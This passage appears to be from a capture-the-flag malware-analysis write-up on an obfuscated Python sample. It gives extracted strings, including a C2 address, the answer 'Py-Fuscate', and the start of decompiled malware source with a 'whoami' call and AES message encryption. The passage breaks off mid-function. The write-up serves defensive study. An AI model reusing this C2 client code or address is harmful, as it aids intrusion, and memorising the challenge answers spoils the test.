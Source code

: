 ```bash
MODE_CBC
type
bytes
encryptr
cypher

cypher_blocks
    
Py-Fuscate
enc_mesr
decryptr
     r

dec_file_mesr
echo Try it againgr
     r
dec_mesr
13.61.7.218i
random

SystemRandom
choice
string
```
The `Py-Fuscate` string indicates that the following open-source obfuscator was used.

More specifically it is evident that the aforementioned string is used [here](https://github.com/Sl-Sanda-Ru/Py-Fuscate/blob/d2f8a508c8c7e9f5bc3ab73a1ec4af5e52a74b2f/py_fuscate.py#L83), as a filename. It does not need to be a real file; it is mainly used for error messages and debugging.

* Answer: `Py-Fuscate`

### [4/6] What is the IP address and port (IP:PORT) used by the malware to establish a connection with the Command and Control (C2) server?

Modern language models can reconstruct the original source code from the bytecode instructions printed by `dis.dis`, eliminating the need to troubleshoot specific Python versions. The decompiled source based on that output is shown below.

```python
import os
import socket
import threading
import time
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

# Get current user
user = os.popen("whoami").read().strip()

# Constants
BUFFER_SIZE = 4096
SEPARATOR = "<SEPARATOR>"
CONN = True


def enc_mes(mes, key):
    """Encrypt a message using AES CBC mode."""
    try:
        cipher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        return cipher.encrypt(pad(mes.encode() if isinstance(mes, str) else mes, 16))
    except Exception:
```
